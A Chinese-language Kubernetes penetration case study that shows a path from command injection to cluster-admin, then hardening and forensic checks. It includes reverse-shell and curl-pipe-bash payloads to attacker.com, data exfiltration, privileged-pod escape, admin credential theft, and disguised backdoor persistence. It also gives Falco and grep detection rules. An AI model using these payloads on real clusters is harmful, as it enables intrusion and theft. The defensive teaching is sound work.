

## 案例四：Kubernetes集群渗透——从Pod到集群管理员

### 攻击场景概述

本案例还原一次对生产级Kubernetes集群的完整渗透测试。攻击者从一个存在命令注入漏洞的Web应用入手，经过Pod内信息收集、Service Account权限利用、特权Pod创建、节点文件系统挂载，最终获取集群管理员权限（cluster-admin）。整个攻击链展示了Kubernetes环境中从单一应用漏洞到全域控制的典型提权路径。

**攻击链总览：**



---

### Kubernetes安全架构基础

在深入攻击细节之前，必须理解Kubernetes的安全模型，这是所有攻击和防御的根基。

#### 核心安全组件

| 组件 | 功能 | 安全意义 |
|------|------|----------|
| **API Server** | 集群控制平面的唯一入口，所有操作都通过REST API完成 | 攻击者的目标终点——控制API Server等于控制整个集群 |
| **RBAC** | 基于角色的访问控制，定义谁能对哪些资源做什么操作 | 权限配置不当是最常见的K8s安全问题 |
| **Service Account** | Pod访问API Server的身份凭证，每个Pod自动挂载token | Pod内的"身份证"，权限过大会导致集群级提权 |
| **Pod Security Standards** | 定义Pod的安全约束（privileged/baseline/restricted） | 阻止特权容器、hostPath挂载等危险操作 |
| **NetworkPolicy** | 控制Pod之间以及Pod与外部的网络通信 | 阻止横向移动和数据外传 |
| **etcd** | 集群的键值存储数据库，保存所有集群状态和Secrets | 直接访问etcd等于绕过所有RBAC控制 |
| **Admission Controller** | API Server的请求拦截器，在对象创建前进行验证或修改 | 可用于强制执行安全策略或注入恶意配置 |

#### Service Account Token机制

Kubernetes的Service Account（SA）机制是本次攻击的核心。每个Namespace都有一个默认的SA，Pod启动时会自动挂载该SA的token：

```cpp
/var/run/secrets/kubernetes.io/serviceaccount/token      # JWT格式的认证token
/var/run/secrets/kubernetes.io/serviceaccount/ca.crt      # API Server的CA证书
/var/run/secrets/kubernetes.io/serviceaccount/namespace    # 当前Namespace名
```

这个token是一个JWT（JSON Web Token），包含三部分信息：

- **Header**：签名算法（通常是RS256）
- **Payload**：包含SA的Namespace、名称、UID，以及token的签发时间和过期时间
- **Signature**：由API Server的私钥签名

关键安全问题在于：**Kubernetes默认不验证SA token的受众（audience），也不限制token的自动挂载**。这意味着即使是面向外部用户的Web应用，其Pod也会自动拥有SA token，如果该SA被赋予了过高的集群权限，攻击者拿到Pod shell就等于拿到了集群钥匙。

---

### 攻击过程详解

#### 阶段1：获取初始访问——利用命令注入漏洞

某企业在Kubernetes上运行微服务应用，其中一个内部API网关服务存在命令注入漏洞。该服务的`/api/ping`端点接受一个`host`参数用于网络连通性检测，但后端直接将参数拼接到系统命令中执行，未做任何输入过滤。

**漏洞代码分析：**

```python
# 存在漏洞的后端代码（Python Flask示例）
@app.route('/api/ping')
def ping():
    host = request.args.get('host')
    # 危险：直接拼接用户输入到系统命令
    result = subprocess.check_output(f"ping -c 1 {host}", shell=True)
    return jsonify({"result": result.decode()})
```

**利用命令注入获取反向Shell：**

```bash
# 构造注入payload，利用bash反向shell
# 分号(;)结束ping命令，执行反弹shell
GET /api/ping?host=127.0.0.1;bash -i >%26 /dev/tcp/attacker.com/4444 0>%261 HTTP/1.1

# 攻击机监听
nc -lvnp 4444
```

> **注意**：URL编码`>%26`对应`>&`，因为`&`在URL中是参数分隔符。实际渗透中可能需要根据WAF和应用过滤规则调整编码方式。

**更隐蔽的替代方法——不使用反向Shell：**

```bash
# 方法1：通过curl下载并执行脚本（避免直接反弹shell触发告警）
;curl http://attacker.com/shell.sh|bash

# 方法2：写入webshell（如果目标有web服务目录可写）
;echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC9hdHRhY2tlci5jb20vNDQ0NCAwPiYx' | base64 -d | bash

# 方法3：利用Kubernetes Downward API通过环境变量泄露信息
;env > /tmp/env.txt;curl -X POST -d @/tmp/env.txt http://attacker.com/exfil
```

**获取Shell后的第一件事——稳定终端：**

```bash
# 获取交互式shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
# 或者
script -qc /bin/bash /dev/null

# 背景化并设置终端参数
# 在攻击机上按Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=/bin/bash
stty rows 40 columns 160
```

---

#### 阶段2：Pod内信息收集

获取Shell后，首要任务是全面收集Pod内部和Kubernetes环境信息。这一步决定了后续攻击路径的选择。

**2.1 基础环境探测**

```bash
# 确认当前身份
whoami
id
cat /etc/passwd

# 确认容器环境
cat /proc/1/cgroup        # 判断是否在容器中
ls -la /.dockerenv         # Docker容器标记文件
cat /proc/1/status | grep -i cap  # 查看当前进程的Linux Capabilities

# 查看操作系统信息
cat /etc/os-release
uname -a
```

**2.2 Service Account Token提取**

```bash
# 检查Service Account挂载目录
ls -la /var/run/secrets/kubernetes.io/serviceaccount/

# 读取token（这是最关键的一步）
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CACERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
NAMESPACE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

# 解码JWT token查看权限声明（无需密钥，仅解码payload）
echo $TOKEN | cut -d'.' -f2 | base64 -d 2>/dev/null | python3 -m json.tool
```

**JWT解码结果示例：**

```json
{
  "iss": "kubernetes/serviceaccount",
  "kubernetes.io/serviceaccount/namespace": "default",
  "kubernetes.io/serviceaccount/secret.name": "default-token-abc123",
  "kubernetes.io/serviceaccount/service-account.name": "default",
  "kubernetes.io/serviceaccount/service-account.uid": "a1b2c3d4-e5f6-7890-abcd-ef1234567890",
  "sub": "system:serviceaccount:default:default"
}
```

> **关键信息**：从JWT payload中可以看到SA所属的Namespace和名称。`system:serviceaccount:default:default`表示这是`default` Namespace中的`default` Service Account。默认SA通常权限很小，但运维人员为了方便可能赋予了过高的权限。

**2.3 API Server连通性测试**

```bash
# 确认API Server地址（环境变量中通常有）
env | grep -i kube
# KUBERNETES_SERVICE_HOST=10.96.0.1
# KUBERNETES_SERVICE_PORT=443
# KUBERNETES_SERVICE_PORT_HTTPS=443

# 测试API Server连通性
curl -sk --cacert $CACERT \
  -H "Authorization: Bearer $TOKEN" \
  https://kubernetes.default.svc/api/v1

# 如果curl不可用，尝试wget或python
python3 -c "
import urllib.request, ssl
ctx = ssl.create_default_context(cafile='$CACERT')
req = urllib.request.Request('https://kubernetes.default.svc/api/v1',
    headers={'Authorization': 'Bearer $TOKEN'})
resp = urllib.request.urlopen(req, context=ctx)
print(resp.read().decode()[:500])
"
```

**2.4 权限枚举——确定攻击面**

权限枚举是决定攻击路径的关键步骤。Kubernetes提供了`SelfSubjectRulesReview` API来查询当前身份在特定Namespace中的权限：

```bash
# 方法1：使用SelfSubjectRulesReview查询当前Namespace的权限
curl -sk --cacert $CACERT \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -X POST \
  https://kubernetes.default.svc/apis/authorization.k8s.io/v1/selfsubjectrulesreviews \
  -d '{
    "kind": "SelfSubjectRulesReview",
    "apiVersion": "authorization.k8s.io/v1",
    "spec": {"namespace": "'"$NAMESPACE"'"}
  }'

# 方法2：逐项测试关键权限
# 测试能否创建Pod
curl -sk --cacert $CACERT \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -X POST \
  https://kubernetes.default.svc/apis/authorization.k8s.io/v1/selfsubjectaccessreviews \
  -d '{
    "kind": "SelfSubjectAccessReview",
    "apiVersion": "authorization.k8s.io/v1",
    "spec": {
      "resourceAttributes": {
        "verb": "create",
        "resource": "pods",
        "namespace": "'"$NAMESPACE"'"
      }
    }
  }'

# 测试能否读取Secrets
# 把verb改为"get"，resource改为"secrets"

# 测试能否exec到其他Pod
# verb改为"create"，resource改为"pods/exec"

# 测试集群级别权限
# 去掉namespace字段，测试clusterroles等资源
```

**权限评估矩阵——根据枚举结果选择攻击路径：**

| 枚举发现的权限 | 可用的攻击路径 | 难度 |
|---------------|---------------|------|
| create pods | 创建特权Pod，挂载宿主机文件系统 | 低 |
| get secrets | 读取集群中所有Secrets（含密码、证书、token） | 低 |
| create pods/exec | exec到集群中任意Pod，获取其shell | 低 |
| get serviceaccounts + create token | 为高权限SA创建新token | 中 |
| patch nodes | 修改节点配置，添加标签控制Pod调度 | 中 |
| create clusterroles/clusterrolebindings | 直接绑定cluster-admin角色 | 极低 |
| list namespaces + get pods | 仅信息泄露，需配合其他漏洞 | 高 |

---

#### 阶段3：权限提升——创建特权Pod

通过权限枚举发现，当前SA拥有在`default` Namespace中创建Pod的权限。这是Kubernetes中最常见的提权路径：**通过创建一个特权Pod，利用其宿主机访问权限逃逸到节点，再从节点获取集群管理员凭据**。

**3.1 创建特权Pod**

```yaml
# privesc-pod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: privesc-pod
  namespace: default
  labels:
    # 伪装成正常业务Pod，避免引起注意
    app: data-processor
    version: "2.1.0"
spec:
  # hostPID: true 允许Pod看到宿主机上所有进程
  hostPID: true
  # hostNetwork: true 允许Pod使用宿主机网络栈
  hostNetwork: true
  # hostIPC: true 允许Pod访问宿主机IPC命名空间
  hostIPC: true
  # nodeName直接指定调度到目标节点（可选，用于精准控制）
  # nodeName: target-node-01
  containers:
  - name: privesc
    image: alpine:3.18
    command: ["/bin/sh", "-c", "sleep infinity"]
    # privileged: true 赋予容器所有Linux Capabilities
    securityContext:
      privileged: true
      # 允许权限提升
      allowPrivilegeEscalation: true
    # 挂载宿主机根文件系统
    volumeMounts:
    - name: host-root
      mountPath: /host
    - name: host-etc
      mountPath: /host-etc
      readOnly: true
    # 可选：挂载宿主机的docker/containerd socket
    - name: container-socket
      mountPath: /var/run/docker.sock
  volumes:
  - name: host-root
    hostPath:
      path: /
      type: Directory
  - name: host-etc
    hostPath:
      path: /etc
      type: Directory
  - name: container-socket
    hostPath:
      path: /var/run/docker.sock
      type: Socket
  # 避免Pod被自动调度到资源不足的节点
  tolerations:
  - operator: Exists
```

**通过API Server创建Pod：**

```bash
# 方法1：使用curl直接创建
cat <<'EOF' | curl -sk --cacert $CACERT \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/yaml" \
  -X POST \
  -d @- \
  https://kubernetes.default.svc/api/v1/namespaces/default/pods
apiVersion: v1
kind: Pod
metadata:
  name: privesc-pod
spec:
  hostPID: true
  hostNetwork: true
  containers:
  - name: privesc
    image: alpine:3.18
    command: ["/bin/sh", "-c", "sleep infinity"]
    securityContext:
      privileged: true
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
EOF

# 方法2：先下载kubectl再使用（更方便）
curl -LO https://dl.k8s.io/release/v1.28.0/bin/linux/amd64/kubectl
chmod +x kubectl

# 配置kubectl使用当前SA的token
./kubectl --server=https://kubernetes.default.svc \
  --certificate-authority=$CACERT \
  --token=$TOKEN \
  apply -f privesc-pod.yaml

# 等待Pod运行
./kubectl --server=https://kubernetes.default.svc \
  --certificate-authority=$CACERT \
  --token=$TOKEN \
  get pod privesc-pod -w
```

**3.2 如果镜像拉取被限制**

在生产环境中，集群可能配置了镜像白名单（通过Admission Controller），只允许从私有仓库拉取镜像。此时需要调整策略：

```bash
# 策略1：使用集群中已存在的镜像
# 先枚举当前Namespace中正在使用的镜像
curl -sk --cacert $CACERT \
  -H "Authorization: Bearer $TOKEN" \
  https://kubernetes.default.svc/api/v1/namespaces/$NAMESPACE/pods \
  | python3 -c "
import json,sys
data = json.load(sys.stdin)
for pod in data.get('items',[]):
    for c in pod['spec']['containers']:
        print(c['image'])
" | sort -u

# 策略2：使用已有的任何镜像（即使是nginx），只要能exec进去就行
# 策略3：如果节点上有本地缓存的镜像，可以尝试使用
```

---

#### 阶段4：宿主机逃逸与集群接管

**4.1 进入特权Pod并挂载宿主机文件系统**

```bash
# exec进入特权Pod
# 如果有kubectl：
kubectl exec -it privesc-pod -- /bin/sh

# 如果没有kubectl，通过API Server的exec接口：
# 首先需要获取exec的WebSocket URL
curl -sk --cacert $CACERT \
  -H "Authorization: Bearer $TOKEN" \
  -H "X-Stream-Protocol-Version: v4.channel.k8s.io" \
  -H "X-Stream-Protocol-Version: v3.channel.k8s.io" \
  -H "X-Stream-Protocol-Version: v2.channel.k8s.io" \
  -H "X-Stream-Protocol-Version: channel.k8s.io" \
  "https://kubernetes.default.svc/api/v1/namespaces/default/pods/privesc-pod/exec?command=/bin/sh&stdin=true&stdout=true&stderr=true&tty=true"

# 进入容器后，挂载宿主机根文件系统
mkdir -p /host
mount /dev/sda1 /mnt 2>/dev/null || mount /dev/vda1 /mnt 2>/dev/null || mount /dev/nvme0n1p1 /mnt

# 如果上述都不行，直接使用hostPath挂载的目录
ls /host/
```

**4.2 提取集群管理员凭据**

```bash
# 读取宿主机上的Kubernetes配置文件
# 不同部署方式的admin.conf位置不同：

# kubeadm部署的集群（最常见）
cat /host/etc/kubernetes/admin.conf
# 或
cat /host/etc/kubernetes/controller-manager.conf
cat /host/etc/kubernetes/scheduler.conf

# 二进制部署的集群
cat /host/etc/kubernetes/manifests/kube-apiserver.yaml
# 从apiserver启动参数中提取--service-account-key-file和--etcd-certfile等

# RKE部署的集群
cat /host/etc/kubernetes/ssl/kubecfg-kube-admin.yaml

# Rancher管理的集群
cat /host/etc/kubernetes/ssl/kube-admin-config.yaml

# 提取etcd的证书（可以直接读取etcd中的所有数据）
cat /host/etc/kubernetes/pki/etcd/ca.crt
cat /host/etc/kubernetes/pki/etcd/server.crt
cat /host/etc/kubernetes/pki/etcd/server.key
```

**4.3 使用admin.conf获取集群管理员权限**

```bash
# 将admin.conf复制到攻击机
# 方法1：通过Pod内网络外传
# 先启动一个HTTP服务
python3 -c "
import http.server, socketserver, threading
# 在Pod内启动HTTP服务器供下载
" &

# 方法2：直接在Pod内使用
export KUBECONFIG=/host/etc/kubernetes/admin.conf

# 验证集群管理员权限
kubectl get nodes
kubectl get pods --all-namespaces
kubectl get secrets --all-namespaces
kubectl auth can-i --list  # 应该显示所有资源的所有权限

# 使用admin.conf的token或证书认证
kubectl --kubeconfig=/host/etc/kubernetes/admin.conf cluster-info
```

**4.4 后渗透操作——全面控制集群**

```bash
# ====== 信息收集 ======

# 列出所有Namespace
kubectl get namespaces

# 列出所有Secrets（含数据库密码、API密钥、TLS证书等）
kubectl get secrets --all-namespaces -o yaml

# 列出所有ConfigMaps（含应用配置、数据库连接串等）
kubectl get configmaps --all-namespaces

# 列出所有Service Accounts和RBAC配置
kubectl get serviceaccounts --all-namespaces
kubectl get clusterrolebindings -o wide
kubectl get rolebindings --all-namespaces

# 查看etcd中的所有数据
ETCDCTL_API=3 etcdctl --endpoints=https://127.0.0.1:2379 \
  --cacert=/host/etc/kubernetes/pki/etcd/ca.crt \
  --cert=/host/etc/kubernetes/pki/etcd/server.crt \
  --key=/host/etc/kubernetes/pki/etcd/server.key \
  get / --prefix --keys-only

# ====== 持久化 ======

# 方法1：创建后门Service Account并绑定cluster-admin
kubectl create serviceaccount backdoor-sa -n kube-system
kubectl create clusterrolebinding backdoor-binding \
  --clusterrole=cluster-admin \
  --serviceaccount=kube-system:backdoor-sa

# 为后门SA创建长期token
kubectl create token backdoor-sa -n kube-system --duration=8760h

# 方法2：修改现有Deployment注入后门容器
kubectl get deployments -A
kubectl edit deployment <target-deployment> -n <namespace>
# 在containers数组中添加一个后门sidecar容器

# 方法3：创建DaemonSet在每个节点上运行后门
kubectl apply -f - <<'EOF'
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: node-monitor
  namespace: kube-system
spec:
  selector:
    matchLabels:
      app: node-monitor
  template:
    metadata:
      labels:
        app: node-monitor
    spec:
      hostPID: true
      hostNetwork: true
      containers:
      - name: monitor
        image: alpine:3.18
        command: ["/bin/sh", "-c", "while true; do sleep 3600; done"]
        securityContext:
          privileged: true
        volumeMounts:
        - name: host
          mountPath: /host
      volumes:
      - name: host
        hostPath:
          path: /
EOF

# ====== 数据外传 ======

# 列出所有Ingress/Service，了解对外暴露的服务
kubectl get ingress --all-namespaces
kubectl get services --all-namespaces

# 查看Pod日志，可能包含敏感操作记录
kubectl logs <pod-name> -n <namespace> --tail=1000

# 导出所有Secrets到本地
kubectl get secrets --all-namespaces -o json > /tmp/all-secrets.json
```

---

### 漏洞分析与安全影响

本次渗透中发现的漏洞及其影响：

| 漏洞编号 | 漏洞类型 | 严重性 | CVSS评分 | 描述 | 影响范围 |
|---------|---------|--------|---------|------|---------|
| V-01 | 命令注入 | 严重 | 9.8 | Web应用未对用户输入做任何过滤，直接拼接到系统命令 | 可获取Pod shell访问 |
| V-02 | Service Account权限过大 | 严重 | 9.1 | default SA被赋予了create pods权限 | Pod内可创建任意Pod |
| V-03 | 缺乏Pod安全策略 | 严重 | 8.8 | 未实施Pod Security Standards，允许特权容器创建 | 可逃逸到宿主机 |
| V-04 | 缺乏网络策略 | 高 | 7.5 | 未配置NetworkPolicy，Pod间可自由通信 | 横向移动无阻碍 |
| V-05 | 节点凭据保护不足 | 高 | 7.2 | admin.conf以明文形式存储在节点文件系统中 | 一个节点沦陷即可控制集群 |
| V-06 | 缺乏运行时监控 | 中 | 6.5 | 无容器运行时安全监控，特权Pod创建无告警 | 攻击行为无法被及时发现 |

**攻击影响评估：**

- **数据泄露**：集群中所有Secrets（数据库密码、API密钥、TLS私钥、OAuth token）均可被读取
- **服务中断**：攻击者可以删除或修改任意Deployment、Service、ConfigMap
- **供应链污染**：可以修改CI/CD流水线相关配置，注入恶意镜像
- **持久化**：可以创建后门SA、DaemonSet，实现长期控制
- **横向扩展**：集群通常连接内网其他服务（数据库、消息队列、缓存），可进一步渗透

---

### 防御加固方案

#### 第一层：修复应用层漏洞（阻断入口）

```python
# 修复命令注入——使用参数化调用而非字符串拼接
import subprocess
import shlex

@app.route('/api/ping')
def ping():
    host = request.args.get('host')
    # 输入验证：只允许IP地址或域名格式
    import re
    if not re.match(r'^[a-zA-Z0-9.-]+$', host):
        return jsonify({"error": "Invalid host"}), 400
    # 使用列表形式调用，避免shell注入
    result = subprocess.run(
        ['ping', '-c', '1', '-W', '3', host],
        capture_output=True, text=True, timeout=10
    )
    return jsonify({"result": result.stdout})
```

#### 第二层：最小权限Service Account（限制提权）

```yaml
# 创建专用的低权限SA，不要使用default SA
apiVersion: v1
kind: ServiceAccount
metadata:
  name: app-sa
  namespace: production
  annotations:
    # Kubernetes 1.24+：禁用自动生成长期token
    kubernetes.io/enforce-mountable-secrets: "true"
automountServiceAccountToken: false  # 禁止自动挂载token到Pod
---
# 只授予必要的权限（只能读取特定ConfigMap）
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: app-read-only
  namespace: production
rules:
- apiGroups: [""]
  resources: ["configmaps"]
  resourceNames: ["app-config"]
  verbs: ["get"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: app-sa-binding
  namespace: production
subjects:
- kind: ServiceAccount
  name: app-sa
  namespace: production
roleRef:
  kind: Role
  name: app-read-only
  apiGroup: rbac.authorization.k8s.io
```

```yaml
# 在Deployment中使用专用SA并禁用token自动挂载
apiVersion: apps/v1
kind: Deployment
metadata:
  name: api-gateway
  namespace: production
spec:
  template:
    spec:
      serviceAccountName: app-sa
      automountServiceAccountToken: false  # 双重确认禁用自动挂载
      containers:
      - name: api-gateway
        image: registry.internal/api-gateway:v2.1.0
        securityContext:
          runAsNonRoot: true
          runAsUser: 1000
          readOnlyRootFilesystem: true
          allowPrivilegeEscalation: false
          capabilities:
            drop: ["ALL"]
```

#### 第三层：Pod安全标准（阻断特权容器）

```yaml
# 对Namespace强制实施restricted安全标准
apiVersion: v1
kind: Namespace
metadata:
  name: production
  labels:
    # Kubernetes 1.25+内置的Pod Security Admission
    pod-security.kubernetes.io/enforce: restricted
    pod-security.kubernetes.io/audit: restricted
    pod-security.kubernetes.io/warn: restricted
```

**Pod Security Standards三级对比：**

| 标准 | 说明 | 允许特权容器 | 允许hostPath | 允许hostNetwork | 适用场景 |
|------|------|------------|------------|----------------|---------|
| **privileged** | 无限制 | ✅ | ✅ | ✅ | 系统级组件（kube-system） |
| **baseline** | 基本防护 | ❌ | ❌ | ❌ | 大部分业务应用 |
| **restricted** | 严格限制 | ❌ | ❌ | ❌ | 安全敏感应用 |

#### 第四层：网络策略（阻断横向移动）

```yaml
# 默认拒绝所有Pod间通信
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: default-deny-all
  namespace: production
spec:
  podSelector: {}
  policyTypes:
  - Ingress
  - Egress
---
# 只允许API Gateway访问后端服务
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: allow-api-gateway
  namespace: production
spec:
  podSelector:
    matchLabels:
      app: backend
  policyTypes:
  - Ingress
  ingress:
  - from:
    - podSelector:
        matchLabels:
          app: api-gateway
    ports:
    - port: 8080
      protocol: TCP
---
# 限制出口：只允许访问DNS和特定外部服务
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: restrict-egress
  namespace: production
spec:
  podSelector:
    matchLabels:
      app: api-gateway
  policyTypes:
  - Egress
  egress:
  # 允许DNS
  - to: []
    ports:
    - port: 53
      protocol: UDP
    - port: 53
      protocol: TCP
  # 允许访问后端服务
  - to:
    - podSelector:
        matchLabels:
          app: backend
    ports:
    - port: 8080
```

#### 第五层：运行时安全监控（检测异常行为）

**部署Falco进行运行时威胁检测：**

```yaml
# Falco自定义规则——检测K8s提权行为
- rule: Privileged Pod Created
  desc: 检测特权Pod创建（K8s提权的典型特征）
  condition: >
    ka.verb=create and ka.resource=pods
    and ka.target.resource=pods
    and (ka.req.pod.containers.privileged=true
         or ka.req.pod.host_pid=true
         or ka.req.pod.host_network=true)
  output: >
    检测到特权Pod创建 (user=%ka.user.name verb=%ka.verb
    pod=%ka.req.pod.name ns=%ka.target.namespace
    privileged=%ka.req.pod.containers.privileged
    host_pid=%ka.req.pod.host_pid)
  priority: CRITICAL

- rule: Service Account Token Accessed
  desc: 检测容器内读取SA token的行为
  condition: >
    open_read and container and
    fd.name startswith /var/run/secrets/kubernetes.io/serviceaccount/token
    and not proc.name in (kubectl, kubelet)
  output: >
    非预期进程读取SA token (file=%fd.name proc=%proc.name user=%user.name)
  priority: WARNING

- rule: Host Filesystem Mounted in Container
  desc: 检测容器内挂载宿主机文件系统
  condition: >
    spawned_process and container and
    proc.name=mount and proc.args startswith /host
  output: >
    容器内挂载宿主机文件系统 (proc=%proc.name args=%proc.args)
  priority: CRITICAL
```

**使用Kubernetes审计日志：**

```yaml
# API Server审计策略（在kube-apiserver配置中启用）
apiVersion: audit.k8s.io/v1
kind: Policy
rules:
# 记录所有写操作（创建、修改、删除）
- level: RequestResponse
  verbs: ["create", "update", "patch", "delete"]
  resources:
  - group: ""
    resources: ["pods", "secrets", "serviceaccounts"]
  - group: "rbac.authorization.k8s.io"
    resources: ["roles", "rolebindings", "clusterroles", "clusterrolebindings"]
# 记录认证失败
- level: Metadata
  stages: ["ResponseComplete"]
  omitStages: ["RequestReceived"]
# 其他请求只记录元数据
- level: Metadata
```

#### 第六层：节点安全加固

```bash
# 1. 保护admin.conf等敏感文件的文件权限
chmod 600 /etc/kubernetes/admin.conf
chown root:root /etc/kubernetes/admin.conf

# 2. 启用etcd加密（加密存储Secrets）
# 在kube-apiserver中添加 --encryption-provider-config
cat > /etc/kubernetes/enc-config.yaml <<'EOF'
apiVersion: apiserver.config.k8s.io/v1
kind: EncryptionConfiguration
resources:
- resources:
  - secrets
  providers:
  - aescbc:
      keys:
      - name: key1
        secret: <base64-encoded-32-byte-key>
  - identity: {}
EOF

# 3. 定期轮换SA token的签名密钥
# Kubernetes 1.27+支持Bound Service Account Token Volume

# 4. 禁用匿名认证
# kube-apiserver添加 --anonymous-auth=false
```

---

### 检测与取证

当怀疑集群已被入侵时，按以下步骤进行检测和取证：

```bash
# 1. 检查是否有特权Pod在运行
kubectl get pods --all-namespaces -o json | jq -r '
  .items[] | select(
    .spec.containers[].securityContext.privileged == true or
    .spec.hostPID == true or
    .spec.hostNetwork == true
  ) | "\(.metadata.namespace)/\(.metadata.name)"'

# 2. 检查异常的ClusterRoleBinding
kubectl get clusterrolebindings -o json | jq -r '
  .items[] | select(.roleRef.name == "cluster-admin") |
  "\(.metadata.name) -> \(.subjects[]?.name)"'

# 3. 检查最近创建的SA和token
kubectl get serviceaccounts --all-namespaces --sort-by=.metadata.creationTimestamp
kubectl get secrets --all-namespaces --sort-by=.metadata.creationTimestamp | tail -20

# 4. 检查审计日志中的异常操作
# 查找非预期的特权Pod创建
grep -E "verb=create.*resource=pods" /var/log/kubernetes/audit.log | \
  grep -E "privileged=true|hostPID=true"

# 查找SA token的异常使用
grep "serviceaccounts" /var/log/kubernetes/audit.log | \
  grep -v "system:serviceaccount:kube-system" | \
  grep "verb=create" | grep "resource=token"

# 5. 检查节点上的可疑进程
ps aux | grep -E "nc |ncat |socat |python.*http|curl.*attacker"

# 6. 检查网络连接
netstat -tlnp | grep -E "4444|8888|9999|1234"
ss -tlnp | grep -v -E ":(22|80|443|6443|2379|10250|10259|10257) "
```

---

### 常见误区与陷阱

#### 误区1：认为"default SA无害"

很多开发者认为Kubernetes的default SA权限很小。虽然Kubernetes默认确实不给default SA额外权限，但在实践中，运维人员为了方便调试往往会给default SA绑定高权限ClusterRoleBinding，尤其是在开发和测试环境中——而这些配置有时会被意外带到生产环境。

#### 误区2：以为"禁止kubectl exec就够了"

仅仅禁止exec到其他Pod并不能阻止攻击。如果SA有创建Pod的权限，攻击者可以创建一个新Pod来挂载宿主机文件系统，根本不需要exec到其他Pod。

#### 误区3：忽视etcd的安全性

很多集群的etcd没有启用加密存储（Encryption at Rest），所有Secrets以明文存储在etcd中。如果攻击者能访问etcd端口（默认2379），可以直接读取所有Secrets，完全绕过RBAC控制。

#### 误区4：只关注网络边界安全

Kubernetes集群的安全不仅仅是网络层面。一个拥有合法SA token的Pod已经在集群内部网络中，NetworkPolicy如果不配置就是默认放行。需要从身份认证、授权、网络、运行时、数据五个层面进行纵深防御。

#### 误区5：容器隔离等于安全隔离

很多团队认为"容器就是隔离的"。实际上，共享内核的容器隔离远弱于虚拟机。一旦容器获得了特权（privileged）或者挂载了宿主机文件系统，容器和宿主机之间的隔离就完全失效了。

---

### 工具与资源

#### 攻击工具

| 工具 | 用途 | 获取方式 |
|------|------|---------|
| **kubectl** | Kubernetes官方CLI，集群管理必备 | `curl -LO https://dl.k8s.io/release/v1.28.0/bin/linux/amd64/kubectl` |
| **kubeletctl** | 自动化Kubelet API攻击 | `github.com/cyberark/kubeletctl` |
| **Peirates** | Kubernetes渗透测试自动化工具，集成了SA枚举、提权、横向移动等功能 | `github.com/inguardians/peirates` |
| **kdigger** | Kubernetes安全评估工具，聚焦容器内信息收集 | `github.com/quarkslab/kdigger` |
| **kubeaudit** | Kubernetes集群安全审计 | `github.com/Shopify/kubeaudit` |
| **rbac-police** | RBAC权限评估，发现过度授权 | `github.com/PaloAltoNetworks/rbac-police` |

#### 防御工具

| 工具 | 用途 | 说明 |
|------|------|------|
| **Falco** | 运行时威胁检测 | CNCF项目，基于系统调用和K8s审计日志检测异常行为 |
| **OPA/Gatekeeper** | 策略引擎 | 用Rego语言编写自定义准入策略 |
| **Kyverno** | K8s原生策略引擎 | 用YAML编写策略，学习曲线更平缓 |
| **kube-bench** | CIS基准检查 | 自动化检查集群是否符合CIS Kubernetes Benchmark |
| **Trivy** | 容器镜像扫描 | 扫描镜像中的漏洞和配置问题 |
| **NeuVector** | 容器网络安全 | 提供容器级别的网络微分段和DLP |

#### 学习资源

- **Kubernetes官方安全文档**：https://kubernetes.io/docs/concepts/security/
- **MITRE ATT&CK for Containers**：https://attack.mitre.org/matrices/enterprise/containers/
- **Kubernetes Goat**：https://github.com/madhuakula/kubernetes-goat（故意设计的漏洞K8s环境，用于安全学习）
- **CNCF Cloud Native Security Whitepaper**：云原生安全的权威参考
- **Kubernetes Threat Matrix by Microsoft**：微软发布的K8s威胁矩阵

---

### 延伸思考：其他提权路径

除了本案例展示的"命令注入 → SA token → 特权Pod → 节点文件系统"路径外，Kubernetes环境中还有多种提权方式，实际渗透中应根据枚举结果灵活选择：

**路径1：SA Token → Secrets直接读取**

如果SA有`get secrets`权限，可以直接读取集群中的所有Secrets，其中可能包含数据库密码、API密钥、TLS证书、其他SA的token等。

**路径2：SA Token → Token Request API**

